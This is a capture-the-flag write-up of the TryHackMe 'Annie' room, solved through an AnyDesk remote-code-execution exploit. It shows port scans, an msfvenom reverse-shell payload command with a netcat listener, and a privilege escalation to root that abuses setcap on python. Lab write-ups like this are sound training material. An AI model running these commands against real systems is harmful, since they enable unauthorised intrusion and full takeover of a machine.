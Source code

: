 # **_Annie TryHackMe Writeup_**
## SneakyTurtle158
## Room Creator: TobjasR
[Annie](https://tryhackme.com/room/annie)

Let's get right into it!

I always start off my enumeration on these THM machines with the threader3000 tool (mostly because waiting for a full nmap scan takes some time.)
Threader3000 is great becasue it allows for multithreaded port scanning. In a real world scenario this is a very noisy scan, so you wouldn't likely use it, but in THM boxes it's great becasue it can enumerate ports in 30-90 seconds and then will suggest an in-depth nmap scan that you can run against those specific ports. 

To use the tool you can clone it right from the repo using git:

```bash
cd /opt && git clone https://github.com/dievus/threader3000.git
cd threader3000
chmod +x threader3000.py
./threader3000.py
```

So I ran threader3000 and then did its the suggested nmap scan to get some more info:

```bash
------------------------------------------------------------
        Threader 3000 - Multi-threaded Port Scanner          
                       Version 1.0.7                    
                   A project by The Mayor               
------------------------------------------------------------
Enter your target IP address or URL here: 10.10.48.57
------------------------------------------------------------
Scanning target 10.10.48.57
Time started: 2022-07-03 15:18:55.885442
------------------------------------------------------------
Port 22 is open
Port 7070 is open
Port 40105 is open
Port scan completed in 0:01:13.866787
------------------------------------------------------------
Threader3000 recommends the following Nmap scan:
************************************************************
nmap -p22,7070,40105 -sV -sC -T4 -Pn -oA 10.10.48.57 10.10.48.57
************************************************************
Would you like to run Nmap or quit to terminal?
------------------------------------------------------------
1 = Run suggested Nmap scan
2 = Run another Threader3000 scan
3 = Exit to terminal
------------------------------------------------------------
Option Selection: 1
nmap -p22,7070,40105 -sV -sC -T4 -Pn -oA 10.10.48.57 10.10.48.57
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-03 15:20 EDT
Nmap scan report for 10.10.48.57
Host is up (0.22s latency).

PORT      STATE  SERVICE         VERSION
22/tcp    open   ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
|_  256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
7070/tcp  open   ssl/realserver?
| ssl-cert: Subject: commonName=AnyDesk Client
| Not valid before: 2022-03-23T20:04:30
|_Not valid after:  2072-03-10T20:04:30
|_ssl-date: TLS randomness does not represent time
40105/tcp closed unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.76 seconds
```

Ok, so the first thing that caught my eye here is the AnyDesk Client running on port 7070. I've never dealt with AnyDesk so I used some quick Google Fu to try to get up to speed on it. It looks like it also commonly uses a UDP port in the 50001-50003 range so I did a quick nmap UDP scan of that port range to try to confirm what I was seeing:

```bash
┌──(root㉿kali)-[/opt/THM/annie]
└─# nmap -sU -p50001-50003 10.10.48.57
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-03 15:38 EDT
Nmap scan report for 10.10.48.57
Host is up (0.24s latency).

PORT      STATE         SERVICE
50001/udp open|filtered unknown
50002/udp closed        unknown
50003/udp closed        unknown
```

So, knowing that we have the AnyDesk client running on this machine, I started to search around for any potential vulnerabilities or exploits.

This pretty quickly revealed an RCE exploit on exploit-db: [AnyDesk 5.5.2 - Remote Code Execution](https://www.exploit-db.com/exploits/49613)

Now, we don't really have any way of knowing if the version of the AnyDesk client is the vulnerable version, but we are going to take a shot in the dark here and see what happens. 

First thing we have to do is make some edits to the exploit to make sure the target IP reflects our target (the port number lines up with what we saw in our UDP scan):
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/1.png">
</p>

Next, we need to update the payload of the actual exploit with our own shellcode so we will first run the msfvenom command to get our specific shellcode:
```bash
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.13.40.163 LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
```
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/2.png">
</p>
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/3.png">
</p>

Next, we just need to set up a listener on our machine using the port we designated in the payload (in my case port 4444):
```bash
# nc -nvlp 4444
```
Then, send it!
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/4.png">
</p>

Back over on our listener, we've picked up a shell:
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/5.png">
</p>

Let's clean up the shell with python's pty:
`# python3 -c 'import pty;pty.spawn("/bin/bash")'`

And we've got our first flag!
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/6.png">
</p>

Now, my next step before going crazy trying to upload LinPEAS is to just check some basic privesc stuff. I don't have annie's password so let's look for som SUID binaries:
`find / -perm -4000 -type f -exec ls -al {} 2>/dev/null \;`
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/7.png">
</p>

Looks like we have setcap so we can use this to gain root shell by adding extended permissions to the python binary on the machine:
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/8.png">
</p>

Now that we've added the extended permissions, all we need to do is use our python binary to spawn a shell and we'll have root. (Make sure you are using the binary that you added the +ep to not the one located in /usr/bin)

`# ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/9.png">
</p>

_And that's it! Thanks for following along._
